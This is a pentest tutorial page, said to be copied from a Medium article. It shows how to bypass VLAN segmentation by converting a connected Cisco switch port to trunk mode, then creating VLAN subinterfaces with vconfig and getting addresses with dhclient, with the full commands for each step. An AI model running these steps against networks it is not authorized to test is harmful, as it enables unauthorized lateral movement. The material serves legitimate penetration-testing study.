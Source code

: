 # Lateral VLAN Segmentation Bypass



**This page was copied from** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)****

If you have access to a switch that you are directly connected to, you have the ability to bypass VLAN segmentation within the network. Simply switch the port to trunk mode (otherwise known as trunk), create virtual interfaces with the IDs of the target VLANs, and configure an IP address. You can try requesting the address dynamically (DHCP) or you can configure it statically. It depends on the case.

First you need to find out exactly which port you are connected to. This is done via CDP messages, or you can search the port by mask **include**.

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**If the CDP is suddenly disabled, you can try searching the port by our MAC address.**

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

Before we switch to trunk mode, we need to list the existing VLANs and find out their identifiers. Then we will hang these identifiers on our interface to access VLANs. Thus, thanks to the trunk we can access any VLAN. By the way, the port we are connected to belongs to VLAN 10.

```
SW1# show vlan brief
```

<figure><img src="../../.gitbook/assets/image (178) (2).png" alt=""><figcaption></figcaption></figure>

**Here we go. Enter interface configuration mode and go into trunk mode.**

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

During the switch to trunk mode, connectivity is lost. But I will fix that.

<figure><img src="../../.gitbook/assets/image (70) (3).png" alt=""><figcaption></figcaption></figure>

Create virtual interfaces and “hang” VLAN ID on them, and then raise them.

```
~$ sudo vconfig add eth0 10
~$ sudo vconfig add eth0 20
~$ sudo vconfig add eth0 50
~$ sudo vconfig add eth0 60
~$ sudo ifconfig eth0.10 up
~$ sudo ifconfig eth0.20 up
~$ sudo ifconfig eth0.50 up
~$ sudo ifconfig eth0.60 up
```

Now you need to request an address via DHCP. But if in your case this is not possible, you can set the address statically.

```
~$ sudo dhclient -v eth0.10
~$ sudo dhclient -v eth0.20
~$ sudo dhclient -v eth0.50
~$ sudo dhclient -v eth0.60
```

<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

Example of configuring a static IP address on an interface (VLAN 10):

```
~$ sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

To test the connection, I initiate ICMP requests to the default gateways **for VLANs 10, 20, 50, 60**

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

In the end, **I bypassed VLAN** segmentation and can get into any VLAN network, which unties my hands for the next steps


